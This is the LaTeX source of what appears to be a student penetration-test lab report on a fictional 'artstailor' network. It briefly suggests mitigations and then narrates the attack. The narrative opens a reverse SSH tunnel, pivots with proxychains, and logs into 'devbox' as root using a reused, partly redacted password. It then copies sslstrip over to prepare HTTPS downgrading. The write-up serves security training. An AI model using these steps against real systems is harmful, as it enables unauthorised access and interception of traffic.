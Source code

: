 \documentclass[notitlepage]{article}
\begin{document}
	\subsubsection*{Mitigation or Resolution Strategy}
    To mitigate this issue, we have to make sure that an attacker should never be able to get root access. Changing user credentials and enforce stricter guidlines for what users have root acces
    needs to be enforced. There are also methods to make sure that HTTPS is always enforced and to not provide HTTP alternatives for any HTTPS requests. 
    

    



\section{Attack Narrative}

    \subsection{Initial Access}
    To gain initial access to devbox, there are a few steps we had to follow. First we need to start the ssh server on the kali machine and then connect from costumes as follows
\begin{verbatim}
sudo service ssh start
rdesktop innerouter.artstailor.com
\end{verbatim}
    From there, log in as pr0b3 and then open up command prompt as admin and type the following
\begin{verbatim}
ssh -R 1081 kali@172.24.0.10
\end{verbatim}
    Once we have established the connection, we can use proxychains to gain access to devbox. We found in previous exercises that devbox was a linux machine and port 22 was open and listening. We also
    found from the previous exercise a list of passwords on l.strauss's account, one of them labeled linux. I decided to try his username and the password found in the creds file to log in to the devbox
    machine. 
\begin{verbatim}
proxychains ssh l.strauss@devbox.artstailor.com
password: Co...El
\end{verbatim}
    Once inside, running sudo su and then retyping the password revealed that l.strauss was in fact in the list of sudoers and therefore has root access to the machine.
    \subsection{Setup}
    We can now move our tools we needed to run on this machine using scp as follows
\begin{verbatim}
proxychains scp -r sslstrip-extras l.strauss@devbox.artstailor.com
\end{verbatim}
    In the ssh session, we can unpack the tools we need as follows
\begin{verbatim}
cd sslstrip-extras
gunzip sslstrip3.tgz
tar -xf sslstrip3.tar
\end{verbatim}
    We now have the tools we need.
\end{document}
